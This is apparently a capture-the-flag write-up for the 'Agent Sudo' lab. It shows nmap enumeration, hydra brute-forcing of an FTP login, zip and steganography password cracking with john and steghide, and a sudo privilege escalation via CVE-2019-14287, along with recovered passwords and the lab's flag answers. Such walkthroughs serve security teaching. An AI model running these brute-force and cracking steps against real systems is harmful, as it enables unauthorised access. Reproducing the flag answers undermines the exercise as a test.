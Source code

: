 # Agent Sudo

```bash
export IP=10.10.38.179
```


[nmap output](nmap/initial)
* 21: ftp
* 22: ssh
* 80: http

## Task 2: Enumerate
**How many open ports?**
```
3
```

**How you redirect yourself to a secret page?**
```
user-agent
```

**What is the agent name?**  
I used burpsuite intruder and replaced the user agent with letters, C gave different response length and status code. Location header gave us `agent_C_attention.php`. The name was in this file.
```
chris
```

## Task 3: Hash cracking and brute-force
**FTP password**  
```bash 
hydra -l chris -P rockyou.txt $IP ftp
# [21][ftp] host: 10.10.38.179   login: chris   password: crystal
```

**Zip file password**  
Binwalk found a zip file inside cutie.png. Using john to crack it:
```bash
zip2john 8702.zip > 8702.john
john --wordlist=rockyou.txt 8702.john
# alien            (8702.zip/To_agentR.txt)
# Agent C,
#
# We need to send the picture to 'QXJlYTUx' as soon as possible!
#
# By,
# Agent R
echo QXJlYTUx | base64 -d
# Area 51
```

**steg password**  
```bash
Area 51
steghide -sf cute-alien.jpg -p Area51
# message.txt:
# Hi james,
#
# Glad you find this message. Your login password is hackerrules!
#
# Don't ask me why the password look cheesy, ask agent R who set this password for you.
#
# Your buddy,
# chris
```

**Who is the other agent (in full name)?**
```
James
```

**SSH password**
```
hackerrules!
```

## Task 4: Capture the user flag
**What is the user flag?**
```
b03d975e8c92a7c04146cfa7a5a313c7
```

**What is the incident of the photo called?**
```
Roswell alien autopsy
```

## Task 5: Privilege escalation
**CVE number for the escalation**
```bash
# https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability
CVE-2019-14287
```

**What is the root flag?**
```
b53a02f55b57d4439e3341834d70c062
```

**(Bonus) Who is Agent R?**
```
DesKel
```